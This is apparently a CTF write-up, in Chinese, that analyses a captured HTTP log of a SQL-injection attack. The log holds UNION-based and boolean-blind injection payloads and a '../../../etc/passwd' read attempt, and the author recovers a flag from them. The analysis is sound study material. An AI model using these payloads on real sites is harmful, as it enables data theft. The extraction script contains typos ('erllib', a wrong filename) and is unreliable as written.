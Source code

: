 那么我们得到了flag.log，大概是这样的

```
GET /user.php?id=1 HTTP/1.1
GET /user.php?id=1 HTTP/1.1
HTTP/1.1 200 OK
GET /user.php?id=1 HTTP/1.1
GET /user.php?id=1 HTTP/1.1
HTTP/1.1 200 OK
GET /user.php?id=1&dKgX=6521 AND 1=1 UNION ALL SELECT 1,2,3,table_name FROM information_schema.tables WHERE 2>1-- ../../../etc/passwd HTTP/1.1
GET /user.php?id=1&dKgX=6521 AND 1=1 UNION ALL SELECT 1,2,3,table_name FROM information_schema.tables WHERE 2>1-- ../../../etc/passwd HTTP/1.1
HTTP/1.1 200 OK
GET /user.php?id=1 HTTP/1.1
GET /user.php?id=1 HTTP/1.1
HTTP/1.1 200 OK
GET /user.php?id=1484 HTTP/1.1
GET /user.php?id=1484 HTTP/1.1
HTTP/1.1 200 OK
GET /user.php?id=8492 HTTP/1.1
GET /user.php?id=8492 HTTP/1.1
HTTP/1.1 200 OK
GET /user.php?id=1,.'"(()')' HTTP/1.1
GET /user.php?id=1,.'"(()')' HTTP/1.1
HTTP/1.1 200 OK
GET /user.php?id=8788-8787 HTTP/1.1
GET /user.php?id=8788-8787 HTTP/1.1
```
这里发现前面有很多测试的payload，先把他们去掉吧，翻了翻数据包，发现开始注入的时候表名和字段名都得到了，是ctf.flag
把这部分提取出来吧...

```
log = open('flag','r')
log2 = open('flag2.log','w')

for eachLine in log:
		if(eachLine.find('ctf.flag')!=-1):
			log2.write(erllib.unquote(eachLine))

log.close()
log2.close()
```
请求都得到了，大概是这样的
```
GET /user.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM ctf.flag ORDER BY flag LIMIT 0,1),1,1))>64 HTTP/1.1
GET /user.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM ctf.flag ORDER BY flag LIMIT 0,1),1,1))>64 HTTP/1.1
GET /user.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM ctf.flag ORDER BY flag LIMIT 0,1),1,1))>96 HTTP/1.1
GET /user.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM ctf.flag ORDER BY flag LIMIT 0,1),1,1))>96 HTTP/1.1
GET /user.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM ctf.flag ORDER BY flag LIMIT 0,1),1,1))>112 HTTP/1.1
GET /user.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM ctf.flag ORDER BY flag LIMIT 0,1),1,1))>112 HTTP/1.1
GET /user.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM ctf.flag ORDER BY flag LIMIT 0,1),1,1))>104 HTTP/1.1
GET /user.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM ctf.flag ORDER BY flag LIMIT 0,1),1,1))>104 HTTP/1.1
GET /user.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM ctf.flag ORDER BY flag LIMIT 0,1),1,1))>100 HTTP/1.1
GET /user.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM ctf.flag ORDER BY flag LIMIT 0,1),1,1))>100 HTTP/1.1
```